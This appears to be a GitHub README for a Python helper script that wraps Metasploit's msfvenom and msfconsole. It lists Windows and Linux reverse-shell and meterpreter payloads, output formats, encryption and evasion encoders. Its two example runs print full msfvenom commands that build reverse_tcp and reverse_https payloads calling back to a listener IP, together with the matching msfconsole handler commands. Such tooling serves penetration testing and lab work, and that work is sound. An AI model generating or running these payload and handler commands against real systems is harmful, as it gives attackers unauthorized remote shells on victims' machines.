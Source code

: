 # Shells
This repository is a helper script for msfvenom and msfconsole because I am lazy.

## Installation
No installation requirements other than metasploit, but for maximum fun I would create an alias:  
```bash
alias "shells=/path/to/shells.py"
```
Optionally you can create a custom ssl key by doing this:
```bash
sudo mkdir /key
USER=$(whoami)
sudo chown $USER:$USER /key
cd /key
openssl req -new -x509 -nodes -out cert.crt -keyout priv.key
cat priv.key cert.crt > custom.pem
```
## Usage
Defaults are tun0 network adapter IP for LHOST and 443 for LPORT.  If you have an active network adapter you do not need to pass args.

Each option has a default, if you just hit enter through all the prompts it will give you a shell.exe, and if you choose option 10 on the first screen, and enter through the rest it will give you an elf file.  Display the output to the terminal if you need to get shellcode. 
```bash
python3 shells.py
```
```bash
python3 shells.py 10.10.255.254 9001
```

## Example
```bash
❯ python3 shells.py
WINDOWS PAYLOADS
1. windows/x64/meterpreter/reverse_https
2. windows/meterpreter_reverse_https
3. windows/meterpreter/reverse_https
4. windows/x64/meterpreter/reverse_tcp
5. windows/meterpreter/reverse_tcp
6. windows/shell_reverse_tcp
7. windows/shell/reverse_tcp
LINUX PAYLOADS
8. linux/x64/meterpreter_reverse_https
9. linux/x86/meterpreter_reverse_https
10. linux/x64/meterpreter/reverse_tcp
11. linux/x86/meterpreter/reverse_tcp
12. linux/x64/shell_reverse_tcp
13. linux/x86/shell_reverse_tcp
14. linux/x64/shell/reverse_tcp
15. linux/x86/shell/reverse_tcp
Choose a payload (1-13): 10
FORMATS
1. exe/elf (default)
2. python
3. perl
4. ps1
5. csharp
6. c
7. dll
8. vbapplication
9. vbs
10. vba
11. hta-psh
12. asp
13. aspx
14. jsp
15. sh
16. raw
17. msi
18. war
19. jar
Choose a format by number (1-19) or name:
ENCRYPTION
1. none
2. aes256
3. rc4
4. xor
Choose an encryption type (1-4):
ENCODERS
1. none (default)
2. x86/shikata_ga_nai
3. x64/xor
4. x64/xor_dynamic
5. x64/zutto_dekiru
Choose an encoder by number (1-5) or name:
OUTPUT TYPE
1. File (default)
2. Terminal
Choose an output type (1-2): shell

Shellcode:
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 130 bytes
Final size of elf file: 250 bytes
Saved as: shell

msfvenom command:
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.2 LPORT=443 -f elf -o shell

msfconsole command:
sudo msfconsole -q -x "use exploit/multi/handler; set PAYLOAD linux/x64/meterpreter/reverse_tcp; set LHOST 10.10.14.2; set LPORT 443; set ExitOnSession false; exploit -j"
```

```bash
❯ python3 shells.py 10.10.255.254 9001
WINDOWS PAYLOADS
1. windows/x64/meterpreter/reverse_https
2. windows/meterpreter_reverse_https
3. windows/meterpreter/reverse_https
4. windows/x64/meterpreter/reverse_tcp
5. windows/meterpreter/reverse_tcp
6. windows/shell_reverse_tcp
7. windows/shell/reverse_tcp
LINUX PAYLOADS
8. linux/x64/meterpreter_reverse_https
9. linux/x86/meterpreter_reverse_https
10. linux/x64/meterpreter/reverse_tcp
11. linux/x86/meterpreter/reverse_tcp
12. linux/x64/shell_reverse_tcp
13. linux/x86/shell_reverse_tcp
14. linux/x64/shell/reverse_tcp
15. linux/x86/shell/reverse_tcp
Choose a payload (1-13):
FORMATS
1. exe/elf (default)
2. python
3. perl
4. ps1
5. csharp
6. c
7. dll
8. vbapplication
9. vbs
10. vba
11. hta-psh
12. asp
13. aspx
14. jsp
15. sh
16. raw
17. msi
18. war
19. jar
Choose a format by number (1-19) or name:
ENCRYPTION
1. none
2. aes256
3. rc4
4. xor
Choose an encryption type (1-4):
ENCODERS
1. none (default)
2. x86/shikata_ga_nai
3. x64/xor
4. x64/xor_dynamic
5. x64/zutto_dekiru
Choose an encoder by number (1-5) or name:
OUTPUT TYPE
1. File (default)
2. Terminal
Choose an output type (1-2): shell.exe

Shellcode:
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 592 bytes
Final size of exe file: 7168 bytes
Saved as: shell.exe

msfvenom command:
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.255.254 LPORT=9001 -f exe -o shell.exe

msfconsole command:
sudo msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_https; set LHOST 10.10.255.254; set LPORT 9001; set EnableStageEncoding true; set StagerVerifySSLCert true; set HandlerSSLCert /key/custom.pem; set ExitOnSession false; exploit -j"
```
